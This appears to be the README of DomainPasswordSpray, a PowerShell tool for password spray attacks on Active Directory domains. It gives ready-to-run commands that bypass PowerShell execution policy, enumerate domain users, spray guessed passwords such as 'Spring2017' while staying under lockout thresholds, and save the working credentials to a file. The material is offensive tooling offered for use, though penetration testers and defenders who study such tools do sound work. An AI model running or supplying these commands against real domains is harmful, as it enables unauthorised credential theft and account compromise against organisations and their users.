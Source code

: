 # DomainPasswordSpray
DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. By default it will automatically generate the userlist from the domain. BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

This version has been updated with Warren Frame's (@RamblingCookieMonster) Invoke-Parallel to process the users simultaneously in batches of 50 and speed up the spray. In tests, this has reduced scan time by up to 83%.

## Quick Start Guide
Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.

CD to the DomainPasswordSpray root and:

```PowerShell
Import-Module DomainPasswordSpray
```

The only option necessary to perform a password spray is -PasswordList where you can provide a single string or array of strings. When trying multiptle passwords, Invoke-DomainPasswordSpray will attempt to gather the account lockout observation window from the domain and limit sprays to one per observation window to avoid locking out accounts.

The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Spring2017.
```PowerShell
Invoke-DomainPasswordSpray -PasswordList 'Spring2017'
```

The following command will use the userlist at users.txt and try to authenticate to the domain "domain.local" using each password in the passlist.txt file one at a time. It will automatically attempt to detect the domain's lockout observation window and restrict sprays to one attempt during each window. The results of the spray will be output to a file called sprayed-creds.txt
```PowerShell
Invoke-DomainPasswordSpray -UserList (Get-Content 'c:\users.txt') -DomainName 'domain.local' -PasswordList (Get-Content '.\passlist.txt') | Out-File 'sprayed-creds.txt'
```

### Invoke-DomainPasswordSpray Options
```
UserList          - Optional UserList parameter. This will be generated automatically if not specified.
PasswordList      - A list of passwords one per line to use for the password spray (Be very careful not to lockout accounts).
DomainName            - A domain to spray against.

```
## Get-DomainUserList Function
The function Get-DomainUserList allows you to generate a userlist from the domain. It has options to remove disabled accounts and those that are about to be locked out. This is performed automatically in DomainPasswordSpray if no user list is specified.

This command will write the domain user list without disabled accounts or accounts about to be locked out to a file at "userlist.txt".
```PowerShell
Get-DomainUserList -Domain domainname.local -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt
```
## Demo
![alt text](.\images\pwspray-demo480.gif "Animated gif demo")

The above gif depicts a parallel spray against 250 users with 2 consecutive passwords, all in 18 seconds.
